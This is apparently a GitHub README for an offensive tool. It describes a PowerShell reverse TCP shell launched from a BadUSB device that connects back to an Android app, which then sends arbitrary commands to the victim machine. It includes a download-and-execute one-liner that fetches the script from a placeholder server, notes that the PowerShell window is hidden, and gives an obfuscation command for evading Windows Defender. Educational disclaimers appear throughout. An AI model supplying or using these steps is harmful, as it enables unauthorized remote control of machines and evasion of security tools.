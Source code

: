 
# Reverse TCP PowerShell Shell via BadUSB

A simple PowerShell-based reverse TCP shell designed to be executed via a BadUSB device, connecting back to your Android device running the **rtcp_application** APK. This project was built for educational and testing purposes only.

> **⚠️ Disclaimer:**  
> This tool is for **educational purposes only**. Do not use it on machines you do not own or have explicit permission to test. Unauthorized use of this tool is illegal and unethical.

---

## 📱 Project Overview

- **Script Type**: PowerShell reverse shell  
- **Trigger Method**: Executed via BadUSB (e.g., Rubber Ducky)  
- **Target Receiver**: Android phone running a Unity-based app (`rtcp_application.apk`)  
- **UI & App Note**: The APK is a very basic prototype with poor UI and minimal error handling. It's only meant to demonstrate proof of concept.

---

## 🛠 How It Works

1. **Start the Listener**  
   Launch the `rtcp_application.apk` on your Android phone. It will immediately begin listening for incoming connections.

2. **Deploy the Script**  
   Use a BadUSB device to run the `script.ps1` on a target machine.  
   Recommended method:
   ```powershell
   iex (New-Object Net.WebClient).DownloadString('http://yourserver.com/script.ps1')
   ```

3. **Establish Connection**  
   Once the script is executed, it sends a `hello` message to the host (your phone). The app will display a test command along with an input box and send button.

4. **Send Commands**  
   You can now send any PowerShell command from your phone. Commands will execute on the client machine, and results are returned in the app.

> Note: The PowerShell window is *hidden* but not *fully backgrounded*. It will appear minimized.

---

## 🔄 One-Time Connection

- Each connection is valid only once. If the client disconnects or shuts down, the script must be re-run.
- The IP address in the PowerShell script **must match** your phone’s current IP (shown in the app interface).

---

## 🧪 Testing Notes

- The script can run with **Windows Defender active** (at the time of writing), but any competent security tool or admin will easily detect it.
- This is a **testing and proof-of-concept** tool. It is **not stealthy or production-grade**.

---

## 🔐 Obfuscation (Optional)

To avoid detection from Defender or other tools, you can use [JoelGMSec's Invoke-Stealth](https://github.com/JoelGMSec/Invoke-Stealth) to obfuscate the script:

```powershell
.\Invoke-Stealth.ps1 .\script.ps1 -t All
```

> You can also try specific techniques individually rather than combining them all.

---

## ⚠️ Legal & Ethical Notice

This software is intended for **educational use only** on devices **you own** or are **authorized to test**.  
**Do not use this on any third-party systems without written permission.**

---
